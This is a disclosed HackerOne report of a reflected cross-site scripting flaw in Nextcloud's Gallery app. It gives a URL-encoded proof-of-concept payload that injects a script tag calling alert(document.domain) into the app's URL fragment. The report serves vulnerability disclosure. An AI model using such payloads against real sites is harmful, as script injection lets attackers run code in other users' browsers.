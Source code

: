 # Reflected XSS in Gallery App

## Report Details
- **Report ID**: 165686
- **URL**: https://hackerone.com/reports/165686
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2016-09-04T15:59:09.562Z
- **Disclosed**: 2016-12-03T22:01:12.670Z

## Reporter
- **Username**: soreks
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
Go to: `nextcloud/index.php/apps/gallery/#%3E%3Cscript%3Ealert%28document.domain%29%3C/script%3Ejavascript:alert%280%29//%00`

Tested on: Firefox 43.0.1

If you need more information then write me.

## Attachments
- 1.JPG
